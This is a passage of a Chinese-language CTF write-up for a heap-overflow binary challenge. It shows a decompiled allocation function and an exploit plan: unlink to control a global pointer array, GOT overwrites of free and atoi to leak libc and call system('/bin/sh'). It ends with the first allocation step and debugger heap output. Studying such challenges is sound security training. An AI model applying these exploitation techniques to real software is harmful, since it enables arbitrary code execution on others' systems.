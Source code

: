 alloc函数：分配chunk，其中块的指针信息保存在一个全局变量0x602140中，以下称之为global

```
signed __int64 alloc()
{
  __int64 size; // [rsp+0h] [rbp-80h]
  char *v2; // [rsp+8h] [rbp-78h]
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  size = atoll(&s);
  v2 = (char *)malloc(size);
  if ( !v2 )
    return 0xFFFFFFFFLL;
  global[++cnt] = v2;
  printf("%d\n", (unsigned int)cnt, size);
  return 0LL;
}
```

##### 漏洞分析

在fill漏洞中，可以重新修改size，故存在堆溢出；全局变量存放指针；没有打印函数

思路：

unlink控制全局变量内容

修改chunk1指针为free_got,修改got表内容为puts_plt

修改chunk2指针为puts_got,free(2)的时候即可打印处puts函数的地址

查找libc，得到system函数地址，当然也可以得到/bin/sh地址

修改atoi的got表地址内容为system函数地址

发送/bin/sh

##### 详细步骤

**第一步**：首先申请三个malloc

```python
#分配3个chunk
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
```

申请后的heap详情：

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x1752000
Size: 0x1011

Allocated chunk | PREV_INUSE        //1
Addr: 0x1753010
Size: 0x111

Allocated chunk | PREV_INUSE
Addr: 0x1753120
Size: 0x411

Allocated chunk | PREV_INUSE        //2
Addr: 0x1753530
Size: 0x41

```
